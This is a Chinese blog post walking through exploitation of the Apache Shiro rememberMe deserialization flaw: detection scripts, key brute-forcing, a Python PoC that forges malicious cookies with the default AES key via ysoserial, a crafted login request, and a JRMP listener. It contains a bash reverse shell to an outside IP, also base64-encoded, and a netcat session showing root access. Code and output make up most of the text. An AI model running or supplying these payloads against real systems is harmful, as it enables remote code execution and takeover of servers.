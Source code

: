 ```yaml
---
layout: post
title: "「Shiro」:Apache-shiro框架利用整理"
author: Bin4xin
categories:
    - blog
    - 漏洞复现
    - 笔记
    - vulnhub
    - CVE
permalink: /blog/2020/fastjson/UNdeser/
---
```


> 漏洞特征：shiro反序列化的特征：1、在返回包的Set-Cookie的值为「rememberMe=deleteMe」2、Apache Shiro版本<= 1.2.4
现在很多j2ee开发都会采用shiro框架来做一些权限控制，框架的优势是出来了，当然就存在劣势。shiro是我在参加工作后才会慢慢去接触到，从一开始的代审，再到黑盒渗透，再到前一段时间刚结束的HW行动。
第一小结，是我自己在实践中的一些理解和经历，希望能够记录下来；第二小结是在学习中在网上的一些学习过程，当时也记录下来了，故此分为两个小结。


### 验证
在上面的简述中，可以来进行shiro框架的判断，同时，我们可以进一步对shiro框架是否存在反序列化来进行验证：
用到的是<a href="http://www.svenbeast.com/post/tskRKJIPg/">Shiroscan</a>脚本，开源在github上，用法就不多赘述。
```bash
python3 shiro_rce.py https://shiro.vuln.ip/login.html "ping x.dnslog.cn"
 ____  _     _          ____                  
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __  
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \ 
 ___) | | | | | | | (_) |__) | (_| (_| | | | |
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|

                           By 斯文

Welcome To Shiro反序列化 RCE ! 
[*]  开始检测模块 Class1:CommonsBeanutils1
```
然后脚本开始对不同的秘钥进行生成cookie，尝试让机器执行命令。等待脚本在跑的时候或者跑完，看一下dnslog上的dns记录，如果存在记录如下所示，那么就说明存在反序列化漏洞使得机器执行了任意代码，反之则无：
```javascript
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:46:35
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
```
#### 不服气
当然有的时候用shiroScan扫结束后并没有记录，即不存在漏洞；但是像我，又不死心，于是又在网上折腾找了另外一个能够跑秘钥的探测脚本-_-
<a href="https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/">作者博客</a>
```javascript
python shiro_exp.py https://shiro.vuln.ip/login.html
try CipherKey :4AvVhmFLUs0KTA3Kprsdag==
generator payload done.
send payload ok.
checking.....
checking.....
checking.....
checking.....
vulnerable:true url:https://shiro.vuln.ip/login.html    CipherKey:3AvVhmFLUs0KTA3Kprsdag==
```
当然秘钥对于我们理解shiro反序列化框架也有一定的帮助，shiro的反序列化最初的漏洞来源也是因为秘钥硬编码。

## getshell
通过上面的步骤我们就可以对shiro反序列化做一个判定，肯定是存在RCE漏洞，那么来实现我们的最终目的，GET-shell
一般反弹shell的执行代码`bash -i >& /dev/tcp/47.52.233.92/11111 0>&1`，首先需要把代码进行base64编码，只有经过base64编码后shiro才认得这个命令，通过shiro自己本身的base64解码最终达到执行命令的目的；
转成base64编码->`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny41Mi4yMzMuOTIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}`；像我比较偷懒，就直接在脚本上添加反弹shell，这样的好处就是我们不需要在生成poc的脚本里替换cookie，由脚本自动生成的cookie自动去跑，省事很多
来源：<a href="http://www.jackson-t.ca/runtime-exec-payloads.html">我是转换网址:-)</a>
监听端口等待shell回连（我这里的样例是docker环境）
```javascript
nc -lvvp 11111
Listening on [0.0.0.0] (family 0, port 11111)
Connection from 59.110.152.168 47274 received!
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@6d5a7848dbef:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### 学习
#### 工具
使用ysoserial进行流量监听，下面是ysoserial的jar包生成，懂得开发同学都懂。
```javascript
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -D skipTests
```
#### how-to-poc
使用poc代码获得对应的rememberMe的cookie值。
```javascript
# -*- coding:utf-8 -*-
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```
```javascript
D:\bin4xin\code\shiro\shrio-poc\ysoserial\target> python .\shrio-poc.py 47.52.233.92:6666
rememberMe=W8BOhPe8Qdy8FJ5N9genqt4WjZaONr1NQ+dXgDCV1RrGHUwMfd8ljlA9AG64t7vzUesOp7YKsz6EFFHgyrq1qRqUiPFBnEBi/NNNpE2UR8CgMsf1KY2rbBurFv1Gwslv2+SL7hy3YNq9cpPWm5S8o+nJpa6IyI9cZ+n7a+6hjB4Yfnf89u3BLi4AxOXL35SotH2AdSX2iZrWgGAcah9oW21JwpC2zj4YMjsGf2tPYUysP873bYYHuSIohaXf3bcq4YuQajMctVmM3IvjeY5Ggva9QRUvo5B1o0sPNHdXGwn/z9t/KWcSeTWE+Dt2f95a9QjEIoic6s88Tv0SKjY6UdCmTxN3vVE8rs1haiA48R1CuUQQiWa9V28m2qkonX9aUEUl4kTGGvF+Y5eB4MaNTw==
```

抓包，前台登录拦包，勾选`Remember Me`，截获数据包，替换cookie构造数据包：

```javascript
POST /doLogin HTTP/1.1
underattack-host: underattack-host:8080
Content-Length: 55
Cache-Control: max-age=0
Origin: http://underattack-host:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://underattack-host:8080/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: rememberMe=RFUadguvSoq4kMm3ZwnkO/MHiokCrqrCURXUqUWaXLBM7/fBF65qvjWDFZeh49zHDRm5oKPU1AhmbEBaYRp3ASrQpHdp7mYrChOi51tmq9qkzWemDnjbUXtp8B6RF1EUNV2q2tKaKlf4AAR1hZIRJGbz4CpLeumNAeWB98f6/T0GaWJGGve9rP6l9/7iU5Y9Xj4ZmSBP6LgMHYF3TJ2DDdTNI4nPITeQI3S+9ol/BmT14Be5m0ENfOkm1cdm3L8Rj/pbeE842Y3nUioEdAXizCrOsCYT+u2QTWHt1YZLmB/xsfQvEV5bRpRJeRv/ps7V00PiXvCeaPQoDs541wqB75+/RRAdqU8TWnJE7YhvQVkxTRLvCjBTtwfkgA3XVA8X+518nh0wSoj8/Ajaoi5MbA==
Connection: close

username=asdmnin&password=asdasd&rememberme=remember-me
```
使用包监听6666端口：
```javascript
root@iZj6cgn7odv59wmjjhe6zwZ:/home/tool/shiro_poc/POC-2/ysoserial/target# java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny41Mi4yMzMuOTIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}'
* Opening JRMP listener on 6666
```
发包，我们看到jrmp监听的端口已经有流量回流回来了，如下：
```javascript
Have connection from /underattack-host:58272
Reading message...
Is DGC call for [[0:0:0, 356978429], [0:0:0, 2006635131]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
Have connection from /underattack-host:58274
Reading message...
Is DGC call for [[0:0:0, 356978429], [0:0:0, -1104978848], [0:0:0, 2006635131]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
```

以上。





